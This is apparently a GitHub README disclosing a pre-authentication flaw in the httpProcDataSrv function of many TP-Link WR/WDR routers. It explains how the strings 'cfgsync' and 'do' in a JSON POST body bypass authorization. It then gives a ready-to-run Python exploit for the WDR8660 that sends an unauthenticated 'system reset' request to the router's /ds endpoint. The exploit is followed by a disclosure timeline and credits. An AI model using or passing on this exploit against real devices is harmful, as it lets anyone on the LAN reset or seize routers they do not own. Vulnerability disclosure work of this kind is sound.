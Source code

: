 # TP-Link-poc

TP-Link router have a Command Execute in ``httpProcDataSrv`` function.

Any user can get remote code execution through LAN, this vulnerability currently     affects latest WR,WDR series. includeing WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

### Vulnerability description

This vulnerability happen when ``httpProcDataSrv`` receive a data in json format from ``HTTP post request``.If the strings ``cfgsync`` and ``do``in users input,the post json would  bypass httpDoAuthorize.

![](1.png)

![image-20210728095522755](2.png)

### Poc
Refer to this video: [wdr7660.mp4](./wdr7660.mp4)
poc&exp

***It's for WDR8660***
```python3
import sys
import requests
if len(sys.argv) != 2:
    exit()
ip = sys.argv[1]
s = requests.Session()
data = "{\"system\":{\"reset\":null},\"method\":\"do\", \"cfgsync\":{\"get_config_info\":null}}"

response = s.post("http://%s/ds" %ip, data=data)
print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)
```

### Timeline
2021.7.27 report to CVE and TP-Link

### Acknowledgment
Credit to [@H4lo](https://github.com/H4lo) from Hatlab at dbappsecurity.
